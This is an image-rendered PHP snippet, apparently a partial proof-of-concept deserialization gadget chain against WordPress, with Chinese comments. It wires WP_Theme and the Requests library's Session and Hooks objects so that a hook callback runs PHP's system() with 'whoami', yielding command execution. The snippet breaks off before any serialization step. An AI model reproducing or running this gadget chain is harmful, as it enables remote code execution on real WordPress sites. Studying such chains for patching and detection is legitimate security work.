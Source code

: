 ```bash
    use WpOrg\Requests\Session;

    class WP_Theme {
        private $headers;
        private $parent;

        public function __construct($headers, $parent)
        {
            $this->headers = $headers;
            $this->parent = $parent;
        }
    }

    class WP_Block_List {
        private $blocks;
        private $registry;

        public function __construct($blocks, $registry)
        {
            $this->blocks = $blocks;
            $this->registry = $registry;
        }
    }

    class WP_Block_Type_Registry {
        private $registered_block_types;

        public function __construct($registered_block_types)
        {
            $this->registered_block_types = $registered_block_types;
        }
    }

    $hooks = array(
        "requests.before_request" => array(
            // $hooked
            array(
            // $callback
                array (
                    new Hooks(array(
                        "http://p:0/Name" => array(
                            array("system")
                        )
                        )
                    ),
                    "dispatch"
                )
            )
        )
    );

    // 需要设置hooks属性
    $hook = new Hooks($hooks);

    // headers对应的最后执行的命令数组
    // options中有一个hooks键，需要设置成Hooks实例
    $parent = new Session("http://p:0", array("whoami"), array("hooks" => $hook) );

    // 需要设置parent属性为Session实例
    $registered_block_types = new WP_Theme(null, $parent);

    // 在WP_Theme中根据offsetGet方法来设置
    $block = ["blockName" => "Parent Theme"];
```